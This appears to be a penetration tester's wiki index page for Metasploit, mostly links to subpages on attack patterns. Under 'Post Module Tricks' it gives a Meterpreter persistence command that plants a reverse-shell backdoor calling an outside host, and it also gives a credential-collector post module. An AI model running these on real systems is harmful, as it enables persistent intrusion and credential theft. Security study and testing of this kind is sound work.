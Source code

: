 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)

[MSFConsole](/msfconsole)

[MSFDB](/msfdb)

[MSFRPC](/msfrpc)

[Programming](/metasploitprogramming)
# Known Attack Patterns
[Pass the Hash](/passthehash)
[Browser Attacks](/browserattacks)
[Office Macro Attacks](/officemacros)
[PDF Payload](/pdfpayload)
[MSSql to Meterpreter](/mssqlmeterpreter)
[Web Delivery of powershell script](/meterpreterwebdelivery)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSF RPC Connections